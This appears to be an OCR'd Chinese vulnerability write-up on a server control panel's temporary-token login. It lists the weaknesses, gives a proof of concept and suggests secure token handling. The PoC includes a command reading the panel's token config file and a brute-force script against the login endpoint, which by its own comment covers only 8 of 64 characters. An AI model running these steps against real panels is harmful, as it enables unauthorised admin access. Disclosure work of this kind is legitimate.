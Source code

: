 ```python
        session['username'] = userInfo['username']
        session['tmp_login'] = True
        session['uid'] = userInfo['id']
        # 其他代码省略...
        return redirect('/')
    except:
        return public.error_not_login()
```

**漏洞描述**:  
该函数用于验证临时令牌，存在多个安全问题：
1. 令牌仅验证长度和字符类型，没有加密强度校验
2. 令牌存储在可预测的文件路径中，可能被本地用户访问
3. 令牌有效期120秒，提供了足够的爆破时间
4. 令牌验证失败时的异常处理太宽松
5. 成功认证后直接分配管理员权限(ID=1)

**漏洞利用(PoC)**:
1. 首先获取token文件位置：
```bash
cat /www/server/panel/config/api.json
```

2. 如果无法读取文件，可以尝试暴力破解：
```python
import requests
import string
import itertools

# 生成64位长度的字母数字字符组合
chars = string.ascii_letters + string.digits
for attempt in itertools.product(chars, repeat=8):  # 尝试前8位，实际需要64位
    token = ''.join(attempt)
    response = requests.get('https://server/login', params={'tmp_token': token})
    if '登录失败' not in response.text:
        print(f"成功令牌: {token}")
        break
```

3. 成功获取令牌后，可以访问：
```
https://server/login?tmp_token=<token>
```
绕过认证直接获得管理员权限。

**修复建议**:
1. 使用加密安全的随机数生成器创建令牌：
```python
import secrets
token = secrets.token_hex(32)  # 生成加密安全的随机令牌
```

2. 实现令牌的哈希存储：
```python
import hashlib
import os

def generate_secure_token():
    # 生成随机令牌
    token = secrets.token_hex(32)
    # 生成随机盐值
    salt = os.urandom(16)
    # 使用盐值对令牌进行哈希
    h = hashlib.pbkdf2_hmac('sha256', token.encode(), salt, 100000)
    token_hash = h.hex()
    # 存储哈希和盐值，而不是原始令牌
    data = {'token_hash': token_hash, 'salt': salt.hex(), 'time': time.time()}
```